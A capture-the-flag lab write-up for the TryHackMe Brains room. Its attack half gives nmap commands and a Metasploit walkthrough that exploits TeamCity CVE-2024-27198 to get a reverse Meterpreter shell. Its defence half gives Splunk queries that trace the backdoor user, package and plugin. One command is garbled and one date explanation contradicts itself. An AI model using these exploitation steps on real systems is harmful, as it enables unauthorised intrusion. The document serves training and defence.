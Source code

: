 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# <span style="color: red"> RED exploit the server!</span>
# 1. What is the content of flag.txt in the user's home folder?

<Details>
      
# 1. First Step: run in the Terminal "nmap -p- *Target_IP_Address* "

```bash
nmap -p- 10.10.252.192
````
 1. "nmap" -> The network scanner tool
 2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
 3. "Target_IP_Address" -> The IP address of the target — in the case of the Brains room
      
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 *Target_IP_Address* "
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# Second Step: Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)

   *Look specifically for an event that occurred on 7/4/24 in the logs*
# ✅ CONGRATULATIONS!!! The value in place of [NAME] is the flag answer to the challenge question*

</Details>

# 2. What is the name of the malicious-looking package installed on the server?
<Details>

# Lets find the Malicious-Looking Package Installed on the Server
  *we’ll search in Splunk’s logs for any package installation events*

  ```bash
  source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*

  # source="/var/log/dpkg.log" → This is the Debian package manager log, which records installed
  # date_month="july" → We filter by the correct month.
  # date_mday="4" → And the specific day of the event: April 7th, 2024 is interpreted as July 4 based on the system’s locale format in Splunk
  # *install* → We're looking for any entries that contain the word install, which is part of the log line when a package is installed.
  ```

  *Why This Date? We know from previous investigation that the exploitation happened on 7/4/24*
  *In the search results, you'll see lines like: install [PACKAGE-NAME] [version]*

# ✅ CONGRATULATIONS!!! The [PACKAGE-NAME] that looks suspicious is our answer to the question

</Details>

# 3. What is the name of the plugin installed on the server after successful exploitation?
<Details>

# Identify the Plugin Installed After Exploitation
 *we need to check TeamCity’s activity logs, which record changes in the system, including plugin uploads or installations.*

 ```bash
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*

# source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" → This is the log file where TeamCity activity events (like plugin actions) are recorded.
# *plugin* → We use a wildcard search to look for any lines that contain the word plugin, which likely appears during plugin installation.
```

# ✅ CONGRATULATIONS!!! Pro Tip: The plugin will appear in plain text, but when submitting the answer to the question, make sure to append .zip to the name

</Details>






